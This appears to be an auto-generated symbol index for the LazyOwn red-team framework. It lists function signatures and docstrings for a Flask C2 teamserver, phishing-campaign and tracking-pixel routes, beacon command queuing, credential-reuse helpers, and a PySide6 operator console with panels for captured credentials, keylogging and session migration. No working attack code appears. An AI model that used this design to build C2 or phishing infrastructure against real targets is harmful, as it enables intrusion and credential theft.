- `api_attack_bundle` (line 7476) `def api_attack_bundle()` - *Return the circular/spherical bundle payload of the attack surface.

Returns:
    A JSON object with ``bundle`` (nodes, groups, edges) and
    ``settings`` keys consumed by ``attack_bundle.html``.*
- `get_data` (line 7506) `def get_data()`
- `upload_zip_file` (line 7515) `def upload_zip_file()` - *Handles the file upload, processes the BloodHound ZIP, and prepares data for visualization.*
- `list_campaigns` (line 7573) `def list_campaigns()`
- `create_campaign` (line 7586) `def create_campaign()`
- `lazyphishingai` (line 7664) `def lazyphishingai()`
- `track_pixel` (line 7680) `def track_pixel(campaign_id, email)` - *Píxel de seguimiento para registrar aperturas.*
- `campaign_report` (line 7702) `def campaign_report(campaign_id)`
- `orchestrate_campaign` (line 7784) `def orchestrate_campaign(campaign_id)`
- `create_multivector_campaign` (line 7831) `def create_multivector_campaign()`
- `serve_landing_page` (line 7983) `def serve_landing_page(campaign_id, short_url)`
- `health_check` (line 8008) `def health_check()` - *Basic health and readiness endpoint.*
- `metrics_exposition` (line 8047) `def metrics_exposition()` - *Prometheus-compatible metrics endpoint.*
- `api_dashboard` (line 8054) `def api_dashboard()` - *Aggregated JSON dashboard: beacons, campaign, events, facts summary.*
- `api_listeners` (line 8124) `def api_listeners()` - *List all configured C2 listeners and their runtime status.*
- `api_listeners_create` (line 8131) `def api_listeners_create()` - *Create a new listener.*
- `api_listeners_start` (line 8147) `def api_listeners_start(listener_id)` - *Start an existing listener.*
- `api_listeners_stop` (line 8155) `def api_listeners_stop(listener_id)` - *Stop a running listener.*
- `api_listeners_delete` (line 8163) `def api_listeners_delete(listener_id)` - *Remove a listener configuration.*
- `decorated` (line 1364) `def decorated()`
- `decorated` (line 1377) `def decorated()`
- `wrapper` (line 1396) `def wrapper()`
- `get_safe_file_path` (line 2270) `def get_safe_file_path(user_path)` - *Construye de forma segura el path del archivo y verifica que está en el directorio permitido.
Retorna el path absoluto seguro o None si no es válido.*
- `sanitize_input` (line 4120) `def sanitize_input(input_str)` - *Sanitize input to prevent XSS attacks.*
- `is_valid_route_path` (line 4130) `def is_valid_route_path(route_path)` - *Validate route path format.*
- `is_valid_data` (line 4137) `def is_valid_data(data)` - *Validate data parameter.*
- `is_valid_template_name` (line 4147) `def is_valid_template_name(template_name)` - *Validate template name.*
- `_events` (line 7210) `def _events()`
- `_engage_publish` (line 3479) `def _engage_publish(_cid, _ip, _host, _user, _platform)`
- `_extract_first_ip` (line 3535) `def _extract_first_ip(raw)` - *Extract the first valid IPv4 address from a comma-separated string.*
- `_is_valid_credential` (line 3548) `def _is_valid_credential(value)` - *Check if a string looks like a captured credential.*
- `_normalise_platform` (line 3577) `def _normalise_platform(raw_platform)`
- `_ingest_beacon` (line 3728) `def _ingest_beacon(_ips, _host, _cmd, _out, _user)`
- `_queue_beacon_cmd` (line 3588) `def _queue_beacon_cmd(action, ctx)`
- `_bg_cred_reuse` (line 3695) `def _bg_cred_reuse(_ip)`

**Methods:**
- `format` (line 426) `def format(self, record)`
- `on_any_event` (line 712) `def on_any_event(event)`
- `resolve` (line 1711) `def resolve(self, request, handler)`
- `_target` (line 2611) `def _target(self)` - *Return the shared shell, creating it on first use.*
- `__getattr__` (line 2615) `def __getattr__(self, name)` - *Forward attribute reads to the shared shell.*
- `__setattr__` (line 2619) `def __setattr__(self, name, value)` - *Forward attribute writes to the shared shell.*
- `__init__` (line 2947) `def __init__(self, user_data)`

#### `__init__.py`
**Path:** `lazygui/__init__.py`
**File Doc:** *LazyOwn Operator Console.  A PySide6-based desktop client for the LazyOwn red-team framework. Supports two operating modes:  * Local mode: spawns the cmd2 console (``lazyown.py``) over a PTY. * Teamserver mode: communicates with the Flask backend (``lazyc2.py``) via HTTP and WebSocket, allowing multi-operator workflows.  The package is organised following SOLID principles. Cross-cutting concerns live in dedicated subpackages:  * :mod:`lazygui.config`   - tunable constants, paths, user-settings. * :mod:`lazygui.theme`    - theme tokens, QSS builder, palette registry. * :mod:`lazygui.services` - backend abstraction and domain models. * :mod:`lazygui.widgets`  - reusable Qt widgets. * :mod:`lazygui.panels`   - dockable panels composed in the main window. * :mod:`lazygui.windows`  - top-level windows and dialogs.*

*No symbols extracted*

#### `__main__.py`
**Path:** `lazygui/__main__.py`
**File Doc:** *Entry point for ``python -m lazygui``.  Delegates to :class:`lazygui.app.Application` so command-line invocation and programmatic embedding share the same bootstrap path.*

**Functions:**
- `main` (line 14) `def main()` - *Bootstrap the GUI and run the Qt event loop.

Returns the exit status produced by Qt so it can propagate to the shell.*

#### `app.py`
**Path:** `lazygui/app.py`
**File Doc:** *Application bootstrap.  Wires the configuration, theme, services and main window together. The :class:`Application` class is the only place that knows how to assemble every subsystem; everything else accepts dependencies through its constructor and stays testable in isolation.*

**Classes:**
- `Application` (line 33) `class Application` - *Owns the QApplication instance and the lifetime of every subsystem.*

**Methods:**
- `__init__` (line 36) `def __init__(self, argv)` - *Build constants/settings/theme/backend/main-window.*
- `run` (line 65) `def run(self)` - *Show the main window, start the backend, and run the event loop.*
- `_discover_credentials` (line 73) `def _discover_credentials(self)` - *Attempt to load auto-generated credentials from the project root.

``lazyc2.py`` writes ``.c2_credentials.txt`` at startup with strong
auto-generated credentials. When the file exists and the operator
has not already manually configured teamserver credentials, those
values are used for the initial connection.*
- `_sync_credentials_to_settings` (line 89) `def _sync_credentials_to_settings(self, credentials)` - *Persist auto-discovered credentials into settings.*
- `show_connect_dialog` (line 100) `def show_connect_dialog(self)` - *Open the connection dialog and swap backends if accepted.*
- `_build_initial_backend` (line 119) `def _build_initial_backend(self)` - *Instantiate the backend remembered in settings or auto-discovered.

When the last backend is ``teamserver``, credentials are resolved in
this order:
1. Auto-generated ``.c2_credentials.txt`` (if present and fresh)
2. Persisted settings (operator name + password)
3. Fall back to local backend (never connect with empty credentials)*
- `_resolve_teamserver_credentials` (line 150) `def _resolve_teamserver_credentials(self)` - *Return ``(username, password)`` from the best available source.

Priority:
1. Auto-discovered ``.c2_credentials.txt`` (fresh, not yet consumed)
2. Persisted settings (previously used credentials)
3. Empty tuple (triggers local fallback)*
- `_build_backend_from_request` (line 167) `def _build_backend_from_request(self, request)` - *Instantiate a backend based on the dialog return value.*
- `_swap_backend` (line 175) `def _swap_backend(self, new_backend)` - *Tear down the previous backend and rebuild the panels around the new one.*
- `_start_backend` (line 194) `def _start_backend(self, backend)` - *Connect signal handlers and call ``start()`` on the backend.*
- `_configure_qt_attributes` (line 213) `def _configure_qt_attributes(self)` - *Set high-DPI policy before instantiating QApplication.*
- `_configure_qt_application_metadata` (line 218) `def _configure_qt_application_metadata(self)` - *Populate organization/application metadata used by ``QSettings``.*
- `_configure_logging` (line 224) `def _configure_logging(self)` - *Install a basic log configuration directing INFO+ to stderr.*

#### `__init__.py`
**Path:** `lazygui/config/__init__.py`
**File Doc:** *Configuration layer.  Centralises every tunable parameter so the rest of the package never embeds a magic number or a hard-coded path. Three concerns are exposed:  * :class:`lazygui.config.constants.AppConstants` - immutable defaults. * :class:`lazygui.config.paths.AppPaths` - filesystem layout resolver. * :class:`lazygui.config.settings.AppSettings` - mutable, persisted overrides.*

*No symbols extracted*

#### `c2_credentials.py`
**Path:** `lazygui/config/c2_credentials.py`
**File Doc:** *C2 auto-generated credentials discovery.  ``lazyc2.py`` writes ``.c2_credentials.txt`` at startup containing the auto-generated strong credentials. This module provides the parser that reads that file and returns a ``(username, password)`` tuple so the GUI can auto-connect without manual credential entry.*

**Classes:**
- `C2Credentials` (line 24) `class C2Credentials` - *Parsed credentials from the auto-generated file.*

**Functions:**
- `load_c2_credentials_from_file` (line 38) `def load_c2_credentials_from_file(file_path)` - *Parse ``.c2_credentials.txt`` and return username + password.

Args:
    file_path: Absolute path to the credentials file.

Returns:
    A populated :class:`C2Credentials` if the file exists and contains
    valid entries, or :meth:`C2Credentials.empty` otherwise.*
- `load_c2_credentials` (line 71) `def load_c2_credentials(project_root)` - *Resolve and parse the credentials file relative to ``project_root``.

Args:
    project_root: The LazyOwn repository root directory.

Returns:
    A :class:`C2Credentials` instance, found or empty.*

**Methods:**
- `empty` (line 33) `def empty(cls)` - *Return a sentinel representing no credentials available.*

#### `constants.py`
**Path:** `lazygui/config/constants.py`
**File Doc:** *Immutable application constants.  Every numeric or string literal that the GUI relies on lives here. If a value ever needs tweaking it changes in this file only; nothing downstream should ever embed a literal of its own.  The class is a frozen dataclass so attempts to mutate it at runtime fail loudly. User-overridable values belong to :class:`AppSettings` instead.*

**Classes:**
- `WindowConstants` (line 18) `class WindowConstants` - *Geometry defaults for top-level windows.*
- `TimingConstants` (line 34) `class TimingConstants` - *Timer intervals expressed in milliseconds.*
- `NetworkConstants` (line 48) `class NetworkConstants` - *Defaults for HTTP and WebSocket clients.*
- `PtyConstants` (line 86) `class PtyConstants` - *Tunables for the local PTY backend.*
- `FontConstants` (line 99) `class FontConstants` - *Font family fallbacks (theme tokens decide colours and sizes).*
- `KeybindingConstants` (line 124) `class KeybindingConstants` - *Application-wide keyboard shortcuts in Qt sequence notation.*
- `IdentifierConstants` (line 142) `class IdentifierConstants` - *Stable string identifiers for object names and settings keys.*
- `ThemeConstants` (line 161) `class ThemeConstants` - *Constants relevant to theme registration.*
- `BackendConstants` (line 176) `class BackendConstants` - *Identifiers for the available backend implementations.*
- `PanelConstants` (line 185) `class PanelConstants` - *Identifiers and labels for dockable panels.*
- `EventLogConstants` (line 205) `class EventLogConstants` - *Bounds for the event-log ring buffer.*
- `CommandPaletteConstants` (line 214) `class CommandPaletteConstants` - *Tunables for the fuzzy command palette.*
- `AppConstants` (line 223) `class AppConstants` - *Aggregate view exposing every constant group as attributes.*

**Methods:**
- `panel_labels` (line 239) `def panel_labels(self)` - *Map panel identifier to human-readable label.*

#### `paths.py`
**Path:** `lazygui/config/paths.py`
**File Doc:** *Filesystem layout resolver.  The application stores user-specific data under the platform-appropriate config directory and reads project-relative resources from the repository root. All path resolution flows through :class:`AppPaths` so tests can swap locations and so nothing downstream embeds an absolute path.*

**Classes:**
- `AppPaths` (line 19) `class AppPaths` - *Resolved filesystem locations for runtime artefacts.

The constructor derives every path from the supplied :class:`AppConstants`
and the current environment, so a test can override ``home_dir`` or the
``project_root`` without monkey-patching the rest of the application.*

**Functions:**
- `_detect_project_root` (line 79) `def _detect_project_root()` - *Walk upwards from this file looking for the LazyOwn project markers.

The detection considers a directory the project root when it contains
both the ``run`` launcher and ``lazyown.py``. Falls back to the directory
two levels above this module if no marker is found, matching the
repository layout (``<root>/lazygui/config/paths.py``).*

**Methods:**
- `config_dir` (line 32) `def config_dir(self)` - *User config directory respecting ``XDG_CONFIG_HOME`` when set.*
- `settings_file` (line 39) `def settings_file(self)` - *Absolute path of the persisted settings JSON file.*
- `layout_file` (line 44) `def layout_file(self)` - *Absolute path of the persisted Qt layout binary blob.*
- `project_run_script` (line 49) `def project_run_script(self)` - *Absolute path to the ``run`` shell launcher in the repository.*
- `lazyc2_script` (line 54) `def lazyc2_script(self)` - *Absolute path to the Flask backend ``lazyc2.py``.*
- `c2_credentials_path` (line 59) `def c2_credentials_path(self)` - *Absolute path to the C2 auto-generated credentials file.

``lazyc2.py`` writes ``.c2_credentials.txt`` at startup when it
generates strong credentials. The operator console reads this file
to auto-discover the username and password.*
- `sessions_dir` (line 69) `def sessions_dir(self)` - *Absolute path to the sessions directory.*
- `ensure_config_dir` (line 73) `def ensure_config_dir(self)` - *Create the config directory if missing and return it.*

#### `settings.py`
**Path:** `lazygui/config/settings.py`
**File Doc:** *Persisted user settings.  Settings live in a JSON file under :attr:`AppPaths.config_dir`. The class exposes typed accessors on top of the JSON document so the rest of the code never deals with raw dictionaries or string keys directly.  Anything stored here is user-tunable. Defaults always come from :class:`AppConstants`; this class is the only legitimate location for runtime mutation of those defaults.*

**Classes:**
- `AppSettings` (line 27) `class AppSettings` - *Read/write wrapper around the persisted settings JSON document.*

**Methods:**
- `load` (line 35) `def load(cls, constants, paths)` - *Load settings from disk, returning empty defaults if absent.*
- `save` (line 47) `def save(self)` - *Persist the current document to disk atomically.*
- `get` (line 55) `def get(self, key, default)` - *Generic accessor for a slash-separated settings key.*
- `set` (line 59) `def set(self, key, value)` - *Assign ``value`` to ``key`` without persisting; call :meth:`save`.*
- `theme_id` (line 64) `def theme_id(self)` - *Currently selected theme identifier.*
- `theme_id` (line 69) `def theme_id(self, value)`
- `last_backend_id` (line 73) `def last_backend_id(self)` - *Backend identifier last used in the connect dialog.*
- `last_backend_id` (line 78) `def last_backend_id(self, value)`
- `last_teamserver_url` (line 84) `def last_teamserver_url(self)` - *Last URL typed in the teamserver connection form.*
- `last_teamserver_url` (line 94) `def last_teamserver_url(self, value)`
- `last_operator_name` (line 98) `def last_operator_name(self)` - *Operator handle the user typed last.*
- `last_operator_name` (line 107) `def last_operator_name(self, value)`
- `last_teamserver_password` (line 111) `def last_teamserver_password(self)` - *Last teamserver password (stored in settings, derived from credentials file).*
- `last_teamserver_password` (line 116) `def last_teamserver_password(self, value)`
- `c2_credentials_loaded` (line 120) `def c2_credentials_loaded(self)` - *Whether the last credentials were loaded from the C2 auto-generated file.*
- `c2_credentials_loaded` (line 125) `def c2_credentials_loaded(self, value)`
- `snapshot` (line 128) `def snapshot(self)` - *Return a defensive read-only copy of the underlying document.*

#### `__init__.py`
**Path:** `lazygui/panels/__init__.py`
**File Doc:** *Dockable panels assembled from the reusable widgets.  Each panel is a thin :class:`QDockWidget` that owns a single concern (sessions, listeners, console, event log) and connects itself to the backend signals it needs. The :class:`PanelRegistry` exposes them by identifier so the main window can wire menu actions and keyboard shortcuts polymorphically.*

*No symbols extracted*

#### `base.py`
**Path:** `lazygui/panels/base.py`
**File Doc:** *Common :class:`QDockWidget` base for every panel.  Centralises ``objectName`` assignment (required for ``QMainWindow.saveState`` to round-trip) and exposes a hook so subclasses can perform backend wiring in a uniform way.*

**Classes:**
- `PanelBase` (line 17) `class PanelBase(QDockWidget)` - *Base class enforcing object-name discipline and backend wiring.*

**Methods:**
- `__init__` (line 20) `def __init__(self, constants, backend, identifier, title, parent)` - *Initialise the dock widget with stable identifier and title.*
- `identifier` (line 43) `def identifier(self)` - *Stable identifier matching :class:`PanelConstants`.*
- `backend` (line 48) `def backend(self)` - *The currently connected backend instance.*

#### `campaign_panel.py`
**Path:** `lazygui/panels/campaign_panel.py`
**File Doc:** *Campaign management panel for the operator console.  Displays active campaigns, objectives and playbook execution status from the teamserver. Supports filtering and detail view.*

**Classes:**
- `CampaignPanel` (line 28) `class CampaignPanel(PanelBase)` - *Dock panel displaying active campaign status.*

**Methods:**
- `__init__` (line 31) `def __init__(self, constants, backend, parent)` - *Build the campaign list UI.*
- `_refresh` (line 99) `def _refresh(self)`
- `_on_campaigns_changed` (line 102) `def _on_campaigns_changed(self, campaigns)`
- `_populate_tree` (line 106) `def _populate_tree(self)`
- `_request_new_campaign` (line 120) `def _request_new_campaign(self)`
- `_request_view_campaign` (line 123) `def _request_view_campaign(self)`
- `_request_run_playbook` (line 126) `def _request_run_playbook(self)`
- `campaign_count` (line 133) `def campaign_count(self)` - *Return the number of active campaigns.*

#### `credentials_panel.py`
**Path:** `lazygui/panels/credentials_panel.py`
**File Doc:** *Credentials and loot panel for the operator console.  Displays captured credentials, hashes, and exfiltrated artefacts from the active backend's session data. Supports filtering and copy-on-click for credential reuse.*

**Classes:**
- `CredentialsPanel` (line 27) `class CredentialsPanel(PanelBase)` - *Dock widget displaying captured credentials and loot.*

**Methods:**
- `__init__` (line 30) `def __init__(self, constants, backend, parent)`
- `_build_ui` (line 50) `def _build_ui(self)`
- `_refresh` (line 95) `def _refresh(self)`
- `_copy_selected` (line 130) `def _copy_selected(self)`

#### `cve_panel.py`
**Path:** `lazygui/panels/cve_panel.py`
**File Doc:** *CVE tracker panel for the operator console.  Displays known CVEs from the knowledge base with severity filtering and search. Supports lookup and exploitation suggestions.*

**Classes:**
- `CVEPanel` (line 28) `class CVEPanel(PanelBase)` - *Dock panel listing CVEs from the knowledge base.*

**Methods:**
- `__init__` (line 31) `def __init__(self, constants, backend, parent)` - *Build the CVE list UI with severity filter.*
- `_refresh` (line 102) `def _refresh(self)`
- `_populate_tree` (line 150) `def _populate_tree(self)`
- `_request_lookup` (line 165) `def _request_lookup(self)`
- `_request_search_exploits` (line 171) `def _request_search_exploits(self)`
- `cve_count` (line 178) `def cve_count(self)` - *Return the number of loaded CVEs.*

#### `event_log_panel.py`
**Path:** `lazygui/panels/event_log_panel.py`
**File Doc:** *Panel hosting the application-wide event log.*

**Classes:**
- `EventLogPanel` (line 24) `class EventLogPanel(PanelBase)` - *Dock panel wrapping :class:`EventLogView` plus a level filter.*

**Methods:**
- `__init__` (line 27) `def __init__(self, constants, backend, event_log, parent)` - *Compose the toolbar (level filter + clear) and the log view.*
- `_on_level_changed` (line 69) `def _on_level_changed(self, _index)` - *Forward the new minimum level to the underlying view.*

#### `graph_panel.py`
**Path:** `lazygui/panels/graph_panel.py`
**File Doc:** *Graph panel for Cobalt Strike-style attack topography visualization.  Renders the C2 beacon graph with interactive nodes, force-directed layout and context menus for beacon interaction: spawn shell, port scan, screenshot, keylog, migrate, download/upload.*

**Classes:**
- `GraphPanel` (line 20) `class GraphPanel(PanelBase)` - *Dock panel wrapping the interactive graph view.*

**Methods:**
- `__init__` (line 23) `def __init__(self, constants, backend, parent)` - *Build the graph view and connect to backend topology updates.*
- `_on_topology_changed` (line 50) `def _on_topology_changed(self, topology)` - *Render the new topology in the graph view.*
- `_on_node_context_menu` (line 54) `def _on_node_context_menu(self, node_id, position)` - *Show a Cobalt Strike-style context menu for the selected node.*
- `_on_node_selected` (line 105) `def _on_node_selected(self, node_id)` - *Handle node selection in the graph.*
- `_find_node_info` (line 109) `def _find_node_info(self, node_id)` - *Return human-readable info for a node by its identifier.*
- `graph_view` (line 118) `def graph_view(self)` - *Return the underlying graph view for layout management.*

#### `history_panel.py`
**Path:** `lazygui/panels/history_panel.py`
**File Doc:** *Command history panel showing beacon command logs.  Reads ``sessions/<client_id>.log`` CSV files and displays command entries with output. Supports filtering by client and auto-refresh.*

**Classes:**
- `HistoryPanel` (line 30) `class HistoryPanel(PanelBase)` - *Dock panel showing beacon command history from CSV log files.*

**Methods:**
- `__init__` (line 33) `def __init__(self, constants, backend, parent)` - *Build the history viewer UI.*
- `_refresh` (line 87) `def _refresh(self)`
- `_populate` (line 106) `def _populate(self)`

#### `killchain_panel.py`
**Path:** `lazygui/panels/killchain_panel.py`
**File Doc:** *Kill-chain visualization panel for the operator console.  Displays the current engagement phase and completed phases as a horizontal progress bar. Reads from ``modules.killchain.KillChain`` as the single source of truth.*

**Classes:**
- `KillChainPanel` (line 35) `class KillChainPanel(PanelBase)` - *Dock widget displaying the engagement kill-chain progress.*

**Functions:**
- `_get_phases` (line 23) `def _get_phases()` - *Import the unified killchain phase definitions lazily.*

**Methods:**
- `__init__` (line 38) `def __init__(self, constants, backend, parent)`
- `_build_ui` (line 62) `def _build_ui(self)`
- `_refresh` (line 96) `def _refresh(self)` - *Pull the kill-chain snapshot and drive visuals exclusively from it.

The single source of truth is the unified ``KillChain.snapshot``
(served by the backend over HTTP for the teamserver backend); the
panel never derives phases locally so it cannot diverge.*
- `_apply_visuals` (line 128) `def _apply_visuals(self)`

#### `listeners_panel.py`
**Path:** `lazygui/panels/listeners_panel.py`
**File Doc:** *Panel that lists the listeners advertised by the backend.*

**Classes:**
- `ListenersPanel` (line 21) `class ListenersPanel(PanelBase)` - *Reactive list of :class:`Listener` rows.*

**Methods:**
- `__init__` (line 24) `def __init__(self, constants, backend, parent)` - *Build the layout and subscribe to backend listener updates.*
- `_on_listeners_changed` (line 65) `def _on_listeners_changed(self, listeners)` - *Cache and rebuild rows.*
- `_on_filter_changed` (line 70) `def _on_filter_changed(self, text)` - *Persist filter and re-render.*
- `_populate_visible` (line 75) `def _populate_visible(self)` - *Rebuild the tree honouring the active filter.*
- `_matches_filter` (line 95) `def _matches_filter(self, listener)` - *Return ``True`` if the listener fields contain the filter text.*

#### `marketplace_panel.py`
**Path:** `lazygui/panels/marketplace_panel.py`
**File Doc:** *Marketplace panel for YARA rules, Nuclei templates, YAML addons and Lua plugins.  Lists installed items from lazyaddons/*.yaml, plugins/*.lua, yara_rules/*.yar, and nuclei-templates/*.yaml. Supports search, filter, and run actions.*

**Classes:**
- `MarketplacePanel` (line 29) `class MarketplacePanel(PanelBase)` - *Dock panel listing YARA rules, Nuclei templates, Addons and Plugins.*

**Methods:**
- `__init__` (line 32) `def __init__(self, constants, backend, parent)` - *Build the tabbed marketplace UI.*
- `_make_tree` (line 94) `def _make_tree(headers)`
- `_refresh` (line 106) `def _refresh(self)`
- `_fetch_yara_rules` (line 112) `def _fetch_yara_rules(self)`
- `_fetch_nuclei_templates` (line 128) `def _fetch_nuclei_templates(self)`
- `_fetch_addons` (line 163) `def _fetch_addons(self)`
- `_fetch_plugins` (line 198) `def _fetch_plugins(self)`
- `_populate_yara_tree` (line 230) `def _populate_yara_tree(self)`
- `_populate_nuclei_tree` (line 238) `def _populate_nuclei_tree(self)`
- `_populate_addons_tree` (line 250) `def _populate_addons_tree(self)`
- `_populate_plugins_tree` (line 262) `def _populate_plugins_tree(self)`
- `_apply_filter` (line 270) `def _apply_filter(self)`
- `_show_selected_info` (line 276) `def _show_selected_info(self)`
- `_run_selected` (line 287) `def _run_selected(self)`

#### `registry.py`
**Path:** `lazygui/panels/registry.py`
**File Doc:** *Registry that owns all dock panels.  Centralising panel instances makes the main window straightforward: it asks the registry for an iterable to attach as docks, looks panels up by identifier when wiring shortcuts, and forwards visibility toggles polymorphically.*

**Classes:**
- `PanelRegistry` (line 34) `class PanelRegistry` - *Holds the canonical panel instances bound to the active backend.*

**Methods:**
- `build` (line 53) `def build(cls, constants, backend, event_log, parent)` - *Construct every dock panel and return them as a registry.*
- `all_panels` (line 83) `def all_panels(self)` - *Return panels in canonical layout order.*
- `by_identifier` (line 99) `def by_identifier(self, identifier)` - *Look up a panel by its stable identifier.*
- `__iter__` (line 106) `def __iter__(self)` - *Iterate over panels in canonical order.*

#### `sessions_panel.py`
**Path:** `lazygui/panels/sessions_panel.py`
**File Doc:** *Panel that lists active sessions reported by the backend.  Supports right-click context menus for beacon interaction: spawn shell, port scan, screenshot, keylog, migrate, upload/download.*

**Classes:**
- `SessionsPanel` (line 39) `class SessionsPanel(PanelBase)` - *Reactive list of :class:`Session` rows with context menus.*

**Methods:**
- `__init__` (line 45) `def __init__(self, constants, backend, parent)` - *Build the layout and subscribe to backend session updates.*
- `_refresh_initial` (line 87) `def _refresh_initial(self)` - *Render any sessions the backend already had at construction time.*
- `_on_sessions_changed` (line 93) `def _on_sessions_changed(self, sessions)` - *Cache the new snapshot and rebuild visible rows.*
- `_on_filter_changed` (line 98) `def _on_filter_changed(self, text)` - *Persist the current filter text and re-render.*
- `_on_selection_changed` (line 103) `def _on_selection_changed(self)` - *Emit ``session_selected`` for the currently highlighted row.*
- `_on_item_double_clicked` (line 114) `def _on_item_double_clicked(self, item)` - *Double-click sets the terminal target to this session.*
- `_on_context_menu` (line 133) `def _on_context_menu(self, position)` - *Show right-click context menu for beacon interaction.*
- `_populate_visible` (line 182) `def _populate_visible(self)` - *Rebuild the tree applying the active filter.*
- `_matches_filter` (line 202) `def _matches_filter(self, session)` - *Return ``True`` if any visible field contains the filter text.*

#### `terminal_panel.py`
**Path:** `lazygui/panels/terminal_panel.py`
**File Doc:** *Console panel hosting the :class:`TerminalView` with beacon command support.*

**Classes:**
- `TerminalPanel` (line 22) `class TerminalPanel(PanelBase)` - *Dock panel wiring :class:`TerminalView` to the active backend with beacon command support.*

**Methods:**
- `__init__` (line 25) `def __init__(self, constants, backend, parent)` - *Compose the terminal view, session selector and command bar.*
- `focus_terminal` (line 78) `def focus_terminal(self)` - *Move keyboard focus into the terminal text area.*
- `set_target_session` (line 82) `def set_target_session(self, session_id)` - *Select a specific beacon in the dropdown.*
- `_send_beacon_command` (line 90) `def _send_beacon_command(self)` - *Send the typed command to the selected beacon or C2 server.*
- `_update_session_combo` (line 104) `def _update_session_combo(self, sessions)` - *Update the session dropdown with current beacons.*
- `_on_beacon_result` (line 119) `def _on_beacon_result(self, result)` - *Display beacon command results in the terminal.*

#### `__init__.py`
**Path:** `lazygui/services/__init__.py`
**File Doc:** *Service layer.  Defines the domain types the GUI consumes and the backend abstraction that hides whether commands are issued to a local cmd2 console (PTY) or a remote LazyOwn teamserver (HTTP/WebSocket).  The :class:`Backend` Protocol is the only contract the UI knows about. New backend implementations only need to satisfy that contract to be plugged in.*

*No symbols extracted*

#### `backend.py`
**Path:** `lazygui/services/backend.py`
**File Doc:** *Backend abstraction.  Implements the Dependency-Inversion principle for the GUI: panels and windows only depend on :class:`Backend`, never on a concrete client. Concrete backends (``LocalPtyBackend``, ``TeamserverBackend``) translate between the abstract contract and their respective transport.  Backends inherit from :class:`QObject` so they can emit Qt signals that panels subscribe to. The signals always carry framework-agnostic dataclasses from :mod:`lazygui.services.models`.*

**Classes:**
- `BackendStatus` (line 33) `class BackendStatus(StrEnum)` - *Lifecycle state of a backend connection.*
- `BackendDescriptor` (line 44) `class BackendDescriptor` - *Read-only description shown in connection dialogs.*
- `Backend` (line 52) `class Backend(QObject)` - *Abstract interface every backend implementation must satisfy.

Subclasses must:

* implement :meth:`start`, :meth:`stop`, :meth:`send_command`,
  :meth:`refresh`, :meth:`resize_terminal`, :meth:`feed_terminal_input`;
* emit ``status_changed`` whenever their connection lifecycle moves;
* emit ``terminal_output`` whenever new bytes are available for the
  terminal widget;
* emit ``sessions_changed`` / ``listeners_changed`` / ``operator_changed``
  when their snapshot of those collections changes;
* emit ``event_logged`` to surface log lines in the GUI.

Signals only carry plain Python dataclasses so the receiving widgets can
be tested without booting the backend.*

**Methods:**
- `__init__` (line 81) `def __init__(self, descriptor, parent)` - *Store the descriptor that uniquely identifies this backend.*
- `descriptor` (line 88) `def descriptor(self)` - *Read-only identification for connection dialogs.*
- `status` (line 93) `def status(self)` - *Current connection lifecycle state.*
- `_set_status` (line 97) `def _set_status(self, new_status)` - *Set ``status`` and emit ``status_changed`` only on transition.*
- `start` (line 104) `def start(self)` - *Establish whatever underlying transport this backend uses.*
- `stop` (line 108) `def stop(self)` - *Tear the underlying transport down cleanly.*
- `send_command` (line 112) `def send_command(self, command, target_session)` - *Submit ``command``, optionally scoped to ``target_session``.*
- `refresh` (line 116) `def refresh(self)` - *Force a re-fetch of sessions, listeners and operator info.*
- `resize_terminal` (line 120) `def resize_terminal(self, columns, rows)` - *Inform the backend the terminal area was resized.*
- `feed_terminal_input` (line 124) `def feed_terminal_input(self, data)` - *Feed raw keystrokes typed by the operator into the terminal.*
- `known_sessions` (line 128) `def known_sessions(self)` - *Return the most recent snapshot of sessions, never ``None``.*
- `known_listeners` (line 132) `def known_listeners(self)` - *Return the most recent snapshot of listeners, never ``None``.*
- `known_topology` (line 136) `def known_topology(self)` - *Return the most recent graph topology.*
- `known_campaigns` (line 140) `def known_campaigns(self)` - *Return the most recent snapshot of campaigns.*
- `request_world_model` (line 144) `def request_world_model(self)` - *Request the current world model state as a dict. Returns empty dict on failure.*
- `request_beacon_history` (line 158) `def request_beacon_history(self, client_id)` - *Return the persistent command/result history for a beacon.

Default implementation returns an empty list; backends that can reach
the teamserver override this to fetch from the REST API.

Args:
    client_id: The beacon id whose history is requested.

Returns:
    An ordered list of record dicts (oldest first).*
- `request_session_state` (line 172) `def request_session_state(self)` - *Request the current session state (creds, hashes, loot) as a dict.*

#### `event_log.py`
**Path:** `lazygui/services/event_log.py`
**File Doc:** *In-memory ring buffer for :class:`EventRecord`.  Centralising log retention here lets every backend feed events in and every panel observe them without coupling the two sides directly. The buffer imposes a hard cap (configured via :class:`EventLogConstants`) so a chatty backend can never starve memory.*

**Classes:**
- `EventLog` (line 20) `class EventLog(QObject)` - *Bounded, thread-safe-ish ring buffer of events with Qt signalling.*

**Methods:**
- `__init__` (line 26) `def __init__(self, constants, parent)` - *Initialise the buffer using ``constants.event_log.max_records``.*
- `capacity` (line 33) `def capacity(self)` - *Maximum number of records retained before the oldest is dropped.*
- `append` (line 37) `def append(self, record)` - *Append ``record`` and emit ``record_appended``.*
- `extend` (line 42) `def extend(self, records)` - *Append every entry in ``records`` in iteration order.*
- `clear` (line 47) `def clear(self)` - *Drop all stored records and emit ``cleared``.*
- `snapshot` (line 52) `def snapshot(self, minimum_level)` - *Return a defensive tuple, optionally filtered by ``minimum_level``.*

#### `factory.py`
**Path:** `lazygui/services/factory.py`
**File Doc:** *Factory for backend instances.  Encapsulates the construction logic so the rest of the GUI never imports a concrete backend class. The factory keeps the GUI honoring the Open/Closed principle: adding a new backend means writing a new class and registering it here, not editing the windows or panels.*

**Classes:**
- `BackendFactory` (line 24) `class BackendFactory` - *Build :class:`Backend` instances from runtime parameters.*

**Methods:**
- `create_local` (line 30) `def create_local(self, parent)` - *Construct a local PTY-based backend.*
- `create_teamserver` (line 34) `def create_teamserver(self, credentials, parent)` - *Construct a teamserver-based backend with the given credentials.*
- `create` (line 42) `def create(self, kind, parent, credentials)` - *Convenience dispatch by :class:`BackendKind`.*

#### `local_backend.py`
**Path:** `lazygui/services/local_backend.py`
**File Doc:** *Local backend that runs the LazyOwn cmd2 console on a PTY.  This backend fork-execs a shell process inside a PTY so the GUI can render the cmd2 prompt with full ANSI semantics. It exposes the same interface as the teamserver backend so panels can switch between the two transparently.*

**Classes:**
- `LocalPtyBackend` (line 30) `class LocalPtyBackend(Backend)` - *Spawn a shell on a PTY and stream its output to the UI.

The backend cannot enumerate sessions or listeners on its own — the cmd2
console prints them to the terminal and the operator parses them
visually. ``known_sessions`` / ``known_listeners`` therefore stay empty.*

**Methods:**
